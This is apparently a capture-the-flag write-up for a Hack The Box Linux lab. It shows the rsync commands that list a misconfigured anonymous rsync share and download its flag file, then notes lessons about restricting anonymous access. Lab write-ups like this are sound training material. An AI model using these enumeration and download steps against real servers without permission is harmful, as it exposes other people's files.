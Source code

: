 # HTB Machine: Machine-Name  
**Date Completed:** 02/13/2025

🔹**Difficulty:** Easy 

🔹**OS:** Linux 

🔹**Objective:** 
Exploit misconfigured rsync to retrieve a flag 




##  Steps for objective 
🔹 Nmap Scan: Found rsync (port 873) open with anonymous access enabled.

🔹 Listed available directories:

Scanned the target and found rsync (port 873) open with anonymous access enabled.
Listed available directories:

rsync --list-only {target_IP}::
Found a public directory with open access.
 
Exploitation
Listed files in the public directory:
rsync --list-only {target_IP}::public

Found flag.txt.
Downloaded and read the flag:
rsync {target_IP}::public/flag.txt .
cat flag.txt
Successfully retrieved the flag! 

Lessons Learned:
Misconfigured rsync can expose sensitive files.
Anonymous access should always be restricted.

